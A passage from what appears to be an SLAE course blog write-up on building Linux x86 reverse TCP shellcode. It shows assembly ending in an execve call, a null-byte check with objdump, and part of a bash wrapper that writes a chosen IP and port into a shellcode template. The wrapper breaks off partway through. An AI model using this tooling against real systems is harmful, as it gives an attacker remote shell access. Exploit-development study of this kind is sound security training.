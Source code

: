 ```nasm
    mov al, 11      ; __NR_execve
    int 0x80
```  
  
Let's compile, run and see if we are receiving our connection back:  
![image1]({{ site.url }}/public/images/slae/assignment2/image1.png)  
  
Perfect, and what about the bad characters:  
```bash
objdump -d ./shell_reverse_tcp -M intel| grep 00
```
  
Nothing, good. Let's update our [wrapper.sh](https://github.com/phackt/slae/blob/master/assignment2/wrapper.sh) script and create our [shell_reverse_tcp.template](https://github.com/phackt/slae/blob/master/assignment2/shell_reverse_tcp.template) file. Please click and check the sources on Github.  

The wrapper.sh and the template file have been enhanced in order to avoid null bytes in port number and IP address:    
```bash
#! /bin/bash

#####################################
# Displays help
#####################################
function help(){
    echo "Usage: $0 <ip> <port_number> <file>"
    exit 1
}

#####################################
# Checking is root
#####################################

if [ $# -ne 3 ]; then
    help
fi

IP=$1
PORT=$2
FILE=$3

##############################
# Checking the port number
##############################

if [ ${PORT} -lt 1 ] || [ ${PORT} -gt 65535 ]; then
	echo "[*] Port number should be between 1 and 65535! Exiting..."
	exit
fi

# Converting port in hex and little endian representation
HEXFMTPORT=`printf "%04x" ${PORT}`
HEXFMTPORT1=$([ $((16#${HEXFMTPORT:0:2})) -ne 0 ] && echo 0x${HEXFMTPORT:0:2} || echo dl)
HEXFMTPORT2=$([ $((16#${HEXFMTPORT: -2})) -ne 0 ] && echo 0x${HEXFMTPORT: -2}	 || echo dl)

# final nasm filename
NASM_FILENAME=${FILE%.*}.nasm

########################
# Splitting IP address
########################
IP1=`echo ${IP} | cut -d. -f1`
IP2=`echo ${IP} | cut -d. -f2`
IP3=`echo ${IP} | cut -d. -f3`
IP4=`echo ${IP} | cut -d. -f4`
```